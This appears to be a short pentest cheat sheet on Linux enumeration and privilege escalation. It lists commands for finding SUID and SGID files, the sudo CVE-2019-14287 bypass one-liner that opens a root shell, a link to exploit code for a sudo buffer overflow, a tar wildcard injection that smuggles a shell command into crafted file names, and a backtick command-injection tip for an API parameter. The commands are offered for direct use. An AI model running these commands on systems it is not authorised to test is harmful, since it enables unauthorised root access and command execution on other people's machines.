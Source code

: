# Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| Find SUID files | ```find / -perm -u=s -type f 2>/dev/null``` |
| Alternate Find SUID files | ```find / -type f -perm -04000 -ls 2>/dev/null``` |
| Find SGID files | ```find / -perm -g=s -type f 2>/dev/null``` |


| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow, pwfeedback enabled: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |
| Tar wildcard * | Checkpoint syntax ```touch /home/user/--checkpoint=1``` and ```touch /home/user/--checkpoint-action=exec=sh\ shell.sh``` | 
| LFI /api/?something=`whoami` | Try using the ``` ` ``` backtick symbol in addition to quotes ' |
